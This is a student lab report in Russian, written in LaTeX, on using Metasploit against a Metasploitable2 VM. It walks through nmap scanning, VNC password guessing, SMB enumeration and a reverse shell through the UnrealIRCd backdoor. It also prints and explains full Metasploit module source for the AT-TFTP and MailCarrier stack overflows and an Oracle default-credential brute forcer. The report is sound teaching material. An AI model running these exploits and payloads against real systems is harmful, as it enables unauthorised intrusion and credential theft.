\documentclass[10pt,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[russian]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}

\usepackage[left=1.8cm, right=1cm, top=0.8cm, bottom=2cm, 
bindingoffset=0cm]{geometry}

\author{Кенть Никита}
\title{Лабораторная работа №4.\\
	Инструмент тестов на проникновение Metasploit}
\begin{document}
	\maketitle
	\renewcommand{\thesection}{\arabic{section}}
	\tableofcontents
	\pagebreak
	
	\setcounter{totalnumber}{10}
	\setcounter{topnumber}{10}
	\setcounter{bottomnumber}{10}
	\renewcommand{\topfraction}{1}
	\renewcommand{\textfraction}{0}
	
	\section{Цель работы}
		Изучение инструмента тестов на проникновение Metasploit.
	\section{Изучение базовых понятий}
		\begin{itemize}
			\item auxiliary - сканнер, использующий уязвимости системы для получения 
			сведений об этой системе.%
			\item Payload — код, который запускается на целевой системе после того, как отработал эксплойт
			\item exploit - фрагмент програмного кода который, используя
			возможности предоставляемые ошибкой, отказом или уязвимостью, ведёт к
			повышению привилегий или отказу в обслуживании компьютерной системы.
			\item shellcode - двоичный исполняемый код, который обычно передаёт 
			управление командному процессору, например '/bin/sh' в Unix shell, 
			'command.com' в MS-DOS и 'cmd.exe' в операционных системах Microsoft 
			Windows. Шелл-код может быть использован как полезная нагрузка эксплойта, 
			обеспечивающая взломщику доступ к командной оболочке в компьютерной 
			системе.
			\item nop - инструкция процессора на языке ассемблера, или команда 
			протокола, которая предписывает ничего не делать (от слова <<no 
			operation>>).
			\item Encoder — инструменты для обфускации модулей с целью маскировки от антивирусов
		\end{itemize}
		
		\section{Список команд msfconsole}
		
		\begin{lstlisting}
msf > help

Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    advanced      Displays advanced options for one or more modules
    back          Move back from the current context
    banner        Display an awesome metasploit banner
    cd            Change the current working directory
    color         Toggle color
    connect       Communicate with a host
    edit          Edit the current module with $VISUAL or $EDITOR
    exit          Exit the console
    get           Gets the value of a context-specific variable
    getg          Gets the value of a global variable
    grep          Grep the output of another command
    help          Help menu
    info          Displays information about one or more modules
    irb           Drop into irb scripting mode
    jobs          Displays and manages jobs
    kill          Kill a job
    load          Load a framework plugin
    loadpath      Searches for and loads modules from a path
    makerc        Save commands entered since start to a file
    options       Displays global options or for one or more modules
    popm          Pops the latest module off the stack and makes it active
    previous      Sets the previously loaded module as the current module
    pushm         Pushes the active or list of modules onto the module stack
    quit          Exit the console
    reload_all    Reloads all modules from all defined module paths
    rename_job    Rename a job
    resource      Run the commands stored in a file
    route         Route traffic through a session
    save          Saves the active datastores
    search        Searches module names and descriptions
    sessions      Dump session listings and display information about sessions
    set           Sets a context-specific variable to a value
    setg          Sets a global variable to a value
    show          Displays modules of a given type, or all modules
    sleep         Do nothing for the specified number of seconds
    spool         Write console output into a file as well the screen
    threads       View and manipulate background threads
    unload        Unload a framework plugin
    unset         Unsets one or more context-specific variables
    unsetg        Unsets one or more global variables
    use           Selects a module by name
    version       Show the framework and console library version numbers


Database Backend Commands
=========================

    Command           Description
    -------           -----------
    creds             List all credentials in the database
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces

		\end{lstlisting}
	
	\section{Подключение доступа к VNC-серверу и получение доступа к консоли}
		kali linux - 192.168.32.129. 
		(Metasploitable2) - 192.168.32.128.
		
		Просканируем порты:
		\begin{lstlisting}
root@kali:/mnt/hgfs/kalifiles# nmap 192.168.32.128 -sV

Starting Nmap 7.01 ( https://nmap.org ) at 2016-05-19 07:38 EDT
Nmap scan report for 192.168.32.128
Host is up (0.00051s latency).
Not shown: 977 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  rmiregistry GNU Classpath grmiregistry
1524/tcp open  shell       Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         Unreal ircd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:48:EA:B0 (VMware)
Service Info: Hosts:  metasploitable.localdomain, localhost, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.30 seconds

		\end{lstlisting}
		
		VCN сервер располагается на порте 5900:
		\begin{lstlisting}
5900/tcp open  vnc         VNC (protocol 3.3)
		\end{lstlisting}
		
		Используем команду 
		<<search vnc>>:
		\begin{lstlisting}
msf > search vnc

Matching Modules
================

   Name                                                 Disclosure Date  Rank       Description
   ----                                                 ---------------  ----       -----------
   auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       normal     RealVNC NULL Authentication Mode Bypass
   auxiliary/scanner/vnc/vnc_login                                       normal     VNC Authentication Scanner
   auxiliary/scanner/vnc/vnc_none_auth                                   normal     VNC Authentication None Detection
   auxiliary/server/capture/vnc                                          normal     Authentication Capture: VNC
   exploit/multi/misc/legend_bot_exec                   2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/vnc/vnc_keyboard_exec                  2015-07-10       great      VNC Keyboard Remote Code Execution
   exploit/windows/vnc/realvnc_client                   2001-01-29       normal     RealVNC 3.3.7 Client Buffer Overflow
   exploit/windows/vnc/ultravnc_client                  2006-04-04       normal     UltraVNC 1.0.1 Client Buffer Overflow
   exploit/windows/vnc/ultravnc_viewer_bof              2008-02-06       normal     UltraVNC 1.0.2 Client (vncviewer.exe) Buffer Overflow
   exploit/windows/vnc/winvnc_http_get                  2001-01-29       average    WinVNC Web Server GET Overflow
   payload/windows/vncinject/bind_hidden_ipknock_tcp                     normal     VNC Server (Reflective Injection), Hidden Bind Ipknock TCP Stager
   payload/windows/vncinject/bind_hidden_tcp                             normal     VNC Server (Reflective Injection), Hidden Bind TCP Stager
   payload/windows/vncinject/bind_ipv6_tcp                               normal     VNC Server (Reflective Injection), Bind IPv6 TCP Stager (Windows x86)
   payload/windows/vncinject/bind_ipv6_tcp_uuid                          normal     VNC Server (Reflective Injection), Bind IPv6 TCP Stager with UUID Support (Windows x86)
   payload/windows/vncinject/bind_nonx_tcp                               normal     VNC Server (Reflective Injection), Bind TCP Stager (No NX or Win7)
   payload/windows/vncinject/bind_tcp                                    normal     VNC Server (Reflective Injection), Bind TCP Stager (Windows x86)
   payload/windows/vncinject/bind_tcp_rc4                                normal     VNC Server (Reflective Injection), Bind TCP Stager (RC4 Stage Encryption)
   payload/windows/vncinject/bind_tcp_uuid                               normal     VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x86)
   payload/windows/vncinject/find_tag                                    normal     VNC Server (Reflective Injection), Find Tag Ordinal Stager
   payload/windows/vncinject/reverse_hop_http                            normal     VNC Server (Reflective Injection), Reverse Hop HTTP/HTTPS Stager
   payload/windows/vncinject/reverse_http                                normal     VNC Server (Reflective Injection), Windows Reverse HTTP Stager (wininet)
   payload/windows/vncinject/reverse_http_proxy_pstore                   normal     VNC Server (Reflective Injection), Reverse HTTP Stager Proxy
   payload/windows/vncinject/reverse_ipv6_tcp                            normal     VNC Server (Reflective Injection), Reverse TCP Stager (IPv6)
   payload/windows/vncinject/reverse_nonx_tcp                            normal     VNC Server (Reflective Injection), Reverse TCP Stager (No NX or Win7)
   payload/windows/vncinject/reverse_ord_tcp                             normal     VNC Server (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)
   payload/windows/vncinject/reverse_tcp                                 normal     VNC Server (Reflective Injection), Reverse TCP Stager
   payload/windows/vncinject/reverse_tcp_allports                        normal     VNC Server (Reflective Injection), Reverse All-Port TCP Stager
   payload/windows/vncinject/reverse_tcp_dns                             normal     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4                             normal     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption)
   payload/windows/vncinject/reverse_tcp_rc4_dns                         normal     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS)
   payload/windows/vncinject/reverse_tcp_uuid                            normal     VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support
   payload/windows/vncinject/reverse_winhttp                             normal     VNC Server (Reflective Injection), Windows Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/bind_ipv6_tcp                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 IPv6 Bind TCP Stager
   payload/windows/x64/vncinject/bind_ipv6_tcp_uuid                      normal     Windows x64 VNC Server (Reflective Injection), Windows x64 IPv6 Bind TCP Stager with UUID Support
   payload/windows/x64/vncinject/bind_tcp                                normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Bind TCP Stager
   payload/windows/x64/vncinject/bind_tcp_uuid                           normal     Windows x64 VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_http                            normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_https                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_tcp                             normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   payload/windows/x64/vncinject/reverse_tcp_uuid                        normal     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_winhttp                         normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/reverse_winhttps                        normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
   post/multi/gather/remmina_creds                                       normal     UNIX Gather Remmina Credentials
   post/osx/gather/enum_chicken_vnc_profile                              normal     OS X Gather Chicken of the VNC Profile
   post/windows/gather/credentials/mremote                               normal     Windows Gather mRemote Saved Password Extraction
   post/windows/gather/credentials/vnc                                   normal     Windows Gather VNC Password Extraction

		\end{lstlisting}
		
		Запустим модуль auxiliary/scanner/vnc/vnc\_login:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 192.168.32.128
RHOSTS => 192.168.32.128
msf auxiliary(vnc_login) > exploit

[*] 192.168.32.128:5900 - Starting VNC login sweep
[+] 192.168.32.128:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		Запустим vncviewer и войдем при помощи узнанного пароля:
		
		\begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 192.168.32.128:5900
[*] exec: vncviewer 192.168.32.128:5900

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
		\end{lstlisting}
		Результат представлен на рисунке~\ref{ris:1.png}.
		
		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{pic1.png}
			\caption{vncviewer}
			\label{ris:vncviewerLogin}
		\end{figure}
		
	\section{Получение списка директорий в общем доступе по протоколу SMB}
		Переключимся  smb\_enumshares:
		
		\begin{lstlisting}
msf > use auxiliary/scanner/smb/smb_enumshares 
msf auxiliary(smb_enumshares) > exploit

[+] 192.168.32.128:139 - print$ - (DISK) Printer Drivers
[+] 192.168.32.128:139 - tmp - (DISK) oh noes!
[+] 192.168.32.128:139 - opt - (DISK) 
[+] 192.168.32.128:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 192.168.32.128:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		
		Видно, какие директории доступны для службы SMB для чтения / записи. 
		
	\section{Получение консоли используя уязвимость в irc}
		Используем
		unreal\_ircd\_3281\_backdoor:
		
		\begin{lstlisting}
msf auxiliary(smb_enumshares) > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.32.128
RHOST => 192.168.32.128
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.32.129:4444 
[*] Connected to 192.168.32.128:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CvS2oaP6xMjjBQd1;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "CvS2oaP6xMjjBQd1\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.32.129:4444 -> 192.168.32.128:52154) at 2016-05-19 08:16:22 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

		\end{lstlisting}
		Видно, что мы получили доступ к консоли.
		
	\section{Осуществление атаки при помощи утилиты Armitage Hail Mary}
		Запустим утилиту Armitage Hail Mary.
		Результат представлен на рисунке~\ref{ris:pic2.png}.
		
		\begin{figure}[h]
			\centering
			
\includegraphics[width=0.9\textwidth]{pic2.png}
			\caption{утилита Armitage Hail Mary}
			\label{ris:2.png}
		\end{figure}
	
	\section{Изучение файлов с исходным кодом эксплойтов}
	\subsection{ exploits/windows/tftp/attftp\_long\_filename.rb}
		Модуль exploits/windows/tftp/attftp\_long\_filename.rb
 Этот модуль использует для переполнения стека, он отправляет запрос (на получение / запись), используя очень длинные имена.\\
 Анализ кода.\\
 Первым этапом указываются параметры модуля: имя, описание, автор и другое, а также регистрируются опции: RPORT, LHOST.
 \begin{verbatim}
 require 'msf/core'
 class MetasploitModule < Msf::Exploit::Remote
   Rank = AverageRanking
 
   include Msf::Exploit::Remote::Udp
 
   def initialize(info = {})
     super(update_info(info,
       'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
       'Description'    => %q{
           This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
         request (get/write) for an overly long file name.
       },
       'Author'         => [ 'patrick' ],
       'References'     =>
         [
           ['CVE', '2006-6184'],
           ['OSVDB', '11350'],
           ['BID', '21320'],
           ['EDB', '2887']
         ],
       'DefaultOptions' =>
         {
           'EXITFUNC' => 'process',
         },
      'Payload'        =>
         {
           'Space'    => 210,
           'BadChars' => "\x00",
           'StackAdjustment' => -3500,
         },
       'Platform'       => 'win',
       'Targets'        =>
         [
         # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
           [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
           [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
           [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
           [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
           [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
           [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
           [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
           [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
           [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
           [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
           [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
         ],
       'Privileged'     => false,
       'DisclosureDate' => 'Nov 27 2006'))
 
     register_options(
       [
         Opt::RPORT(69),
         Opt::LHOST() # Required for stack offset
       ], self.class)
   end
 
 \end{verbatim}
 После чего генерируются длинные имена (make\_nops(25 - datastore['LHOST'].length)) и отправляются по протоколу UDP (udp\_sock.put(sploit)).
 \begin{verbatim}
  def exploit
     connect_udp
 
     sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
     sploit << payload.encoded
     sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
     sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
     sploit << "\x00" + "netascii" + "\x00"
 
     udp_sock.put(sploit)
 
     disconnect_udp
   end
 \end{verbatim}
		\subsection{oracle\_login.rb}
			Исходный код скрипта:
			
			\begin{lstlisting}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
require 'csv'
class Metasploit3 < Msf::Auxiliary
include Msf::Auxiliary::Report
include Msf::Exploit::ORACLE
def initialize(info = {})
super(update_info(info,
'Name'           => 'Oracle Account Discovery',
'Description'    => %q{
This module uses a list of well known default authentication credentials
to discover easily guessed accounts.
},
'Author'         => [ 'MC' ],
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'URL', 'http://www.petefinnigan.com/default/oracle_default_passwords.csv' ],
[ 'URL', 'http://seclists.org/fulldisclosure/2009/Oct/261' ],
],
'DisclosureDate' => 'Nov 20 2008'))
register_options(
[
OptPath.new('CSVFILE', [ false, 'The file that contains a list of default 
accounts.', File.join(Msf::Config.install_root, 'data', 'wordlists', 
'oracle_default_passwords.csv')]),
], self.class)
deregister_options('DBUSER','DBPASS')
end
def report_cred(opts)
service_data = {
address: opts[:ip],
port: opts[:port],
service_name: opts[:service_name],
protocol: 'tcp',
workspace_id: myworkspace_id
}
credential_data = {
origin_type: :service,
module_fullname: fullname,
username: opts[:user],
private_data: opts[:password],
private_type: :password
}.merge(service_data)
login_data = {
last_attempted_at: Time.now,
core: create_credential(credential_data),
status: Metasploit::Model::Login::Status::SUCCESSFUL
}.merge(service_data)
create_credential_login(login_data)
end
def run
return if not check_dependencies
list = datastore['CSVFILE']
print_status("Starting brute force on 
#{datastore['RHOST']}:#{datastore['RPORT']}...")
fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase
begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
end
end
			\end{lstlisting}
			Алгоритм скрипта:
			\begin{enumerate}
				\item Получаем список тестовых логинов и паролей для БД.
				\begin{lstlisting}
list = datastore['CSVFILE']
				\end{lstlisting}
				
				\item В цикле пытаемся подключиться к БД.
				Если попытка удалась, то выводим информацию.
				\begin{lstlisting}
fd = CSV.foreach(list) do |brute|
datastore['DBUSER'] = brute[2].downcase
datastore['DBPASS'] = brute[3].downcase
begin
connect
disconnect
rescue ::OCIError => e
if e.to_s =~ /^ORA-12170:\s/
print_error("#{datastore['RHOST']}:#{datastore['RPORT']} Connection timed out")
break
end
else
report_cred(
ip: datastore['RHOST'],
port: datastore['RPORT'],
service_name: 'oracle',
user: "#{datastore['SID']}/#{datastore['DBUSER']}",
password: datastore['DBPASS']
)
print_status("Found user/pass of: #{datastore['DBUSER']}/#{datastore['DBPASS']} 
on #{datastore['RHOST']} with sid #{datastore['SID']}")
end
end
				\end{lstlisting}
			\end{enumerate}
		\subsection{smtp/mailcarrier\_smtp\_ehlo.rb}
			Полный путь к файлу: 
			/usr/share/metasploit-framework/modules/exploits/windows/smtp/mailcarrier\_smtp\_ehlo.rb
			Ниже приведен исходный код скрипта:
			\begin{lstlisting}
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  Rank = GoodRanking
  include Msf::Exploit::Remote::Tcp
  def initialize(info = {})
    super(update_info(info,
      'Name'		=> 'TABS MailCarrier v2.51 SMTP EHLO Overflow',
      'Description'	=> %q{
          This module exploits the MailCarrier v2.51 suite SMTP service.
        The stack is overwritten when sending an overly long EHLO command.
      },
      'Author' 	    => [ 'patrick' ],
      'License'       => MSF_LICENSE,
      'References'    =>
      [
        [ 'CVE', '2004-1638' ],
        [ 'OSVDB', '11174' ],
        [ 'BID', '11535' ],
        [ 'EDB', '598' ],
      ],
      'Platform'      => ['win'],
      'Arch'		    => [ ARCH_X86 ],
      'Privileged'		=> true,
      'DefaultOptions'	=>
        {
          'EXITFUNC' 	=> 'thread',
        },
      'Payload' =>
        {
          #'Space'			=> 300,
          'BadChars' 		=> "\x00\x0a\x0d:",
          'StackAdjustment'	=> -3500,
        },
      'Targets' =>
        [
          # Patrick - Tested OK 2007/08/05 : w2ksp0, w2ksp4, xpsp0, xpsp2 en.
          [ 'Windows 2000 SP0 - XP SP1 - EN/FR/GR', { 'Ret' => 0x0fa14c63	} ], # jmp esp expsrv.dll w2ksp0 - xpsp1
          [ 'Windows XP SP2 - EN', 		  { 'Ret' => 0x0fa14ccf } ], # jmp esp expsrv.dll xpsp2 en
        ],
      'DisclosureDate' => 'Oct 26 2004',
      'DefaultTarget' => 0))
    register_options(
      [
        Opt::RPORT(25),
        Opt::LHOST(), # Required for stack offset
      ], self.class)
  end
  def check
    connect
    banner = sock.get_once || ''
    disconnect
    if banner.to_s =~ /ESMTP TABS Mail Server for Windows NT/
      return Exploit::CheckCode::Detected
    end
    return Exploit::CheckCode::Safe
  end
  def exploit
    connect
    sploit = "EHLO " + rand_text_alphanumeric(5106 - datastore['LHOST'].length, payload_badchars)
    sploit << [target['Ret']].pack('V') + payload.encoded
    sock.put(sploit + "\r\n")
    handler
    disconnect
  end
end
			\end{lstlisting}
Скрипт посылает smtp серверу очень длинное приветственное сообщение с командой EHLO - клиент хочет использовать расширенную версию smtp. Это вызывает перезапись стека.

	
	\section{Выводы}
	В ходе выполнения лабораторной работы были изучены методы сканирования 
	хостов, опробованы некоторые типы атак. Применили фрэймворк metasploit. 
	Опробовали утилиту armitage и изучили алгоритмы применения некоторых эксплойтов.
\end{document}